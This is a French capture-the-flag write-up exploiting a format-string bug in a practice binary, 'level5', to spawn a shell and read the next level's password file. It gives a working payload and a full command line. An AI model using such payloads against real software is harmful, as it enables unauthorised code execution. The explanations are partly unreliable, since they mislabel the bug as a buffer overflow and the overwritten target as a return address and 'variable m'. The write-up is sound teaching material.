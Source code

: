 ### README - Exploitation du programme `level5`

## Introduction

Nous avons un exécutable `level5` avec les options suivantes :

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level5/level5
```

### Code source décompilé

```c
void o(void) {
  system("/bin/sh");
  _exit(1);
}

void n(void) {
  char local_20c[520];
  
  fgets(local_20c, 0x200, stdin);
  printf(local_20c);
  exit(1);
}

void main(void) {
  n();
  return;
}
```

### Analyse de la vulnérabilité

La fonction `n` utilise `fgets` pour lire l'entrée utilisateur dans un tampon de 520 octets, puis `printf` pour afficher le contenu du tampon. Cela rend le programme vulnérable à une attaque par débordement de tampon. La fonction `o` appelle `system("/bin/sh")`, nous donnant un shell interactif.

### Objectif

Notre objectif est d'exploiter la vulnérabilité de chaîne de format pour écraser l'adresse de retour après la fonction `n` avec l'adresse de la fonction `o`, afin d'obtenir un shell interactif.

### Adresse de la fonction `o`

Avec `gdb`, nous trouvons l'adresse de la fonction `o` :

```gdb
(gdb) info functions
0x080484a4  o
0x080484c2  n
0x08048504  main
```

### Exploitation de la vulnérabilité

#### 1. Génération du payload avec Python

```bash
python -c 'print "\x38\x98\x04\x08" + "%0134513824x%4$n"'
```

- `"\x38\x98\x04\x08"` : Adresse mémoire en format little-endian (0x08049838).
- `"%0134513824x%4$n"` : Chaîne de format pour exploiter la vulnérabilité.

#### 2. Exécution de la commande pour lire le mot de passe

```bash
echo "cat /home/user/level6/.pass"
```

#### 3. Redirection vers le programme `level5`

```bash
| ./level5
```

### Explication détaillée

#### Adresse mémoire en format little-endian

- `"\x38\x98\x04\x08"` : C'est l'adresse de la variable `m` que nous voulons écraser. En little-endian, cela représente l'adresse `0x08049838`.

#### Chaîne de format

- **`"%0134513824x%4$n"`** :
  - **`%0`** : Indique un remplissage avec des zéros.
  - **`134513824`** : Nombre de caractères à écrire. Cette valeur représente l'adresse de la fonction `o` (0x080484a4) en décimal.
  - **`x`** : Formate le nombre comme un hexadécimal (mais ici utilisé pour consommer des caractères).
  - **`%4$n`** : Écrit le nombre total de caractères imprimés jusqu'à présent à l'adresse spécifiée par le 4ème argument.

### Résultat attendu

Après l'exécution de cette commande, la vulnérabilité de chaîne de format est exploitée pour écraser l'adresse de retour avec l'adresse de la fonction `o`, ouvrant ainsi un shell interactif. La commande `cat /home/user/level6/.pass` est ensuite exécutée dans ce shell pour afficher le mot de passe du niveau suivant.

### Commande complète

```bash
(python -c 'print "\x38\x98\x04\x08" + "%0134513824x%4$n"'; echo "cat /home/user/level6/.pass") | ./level5
```

### Explication finale

- **Adresse mémoire en little-endian** : `"\x38\x98\x04\x08"` représente l'adresse de la variable `m`.
- **Chaîne de format** : `%0134513824x%4$n` manipule le nombre de caractères imprimés pour écrire l'adresse de la fonction `o` à l'adresse de `m`.
- **Combinaison avec une commande shell** : `echo "cat /home/user/level6/.pass"` pour lire le mot de passe une fois le shell ouvert.
- **Redirection vers le programme** : `| ./level5` exécute le payload et la commande.

Avec cette exploitation, nous pouvons rediriger l'exécution vers la fonction `o` et ouvrir un shell interactif, puis exécuter la commande pour obtenir le mot de passe du niveau suivant.

### Conclusion

Cette méthode utilise une vulnérabilité de chaîne de format pour écraser l'adresse de retour après la fonction `n` et rediriger l'exécution vers la fonction `o`, nous permettant ainsi d'obtenir un shell interactif et de lire le mot de passe pour le niveau suivant.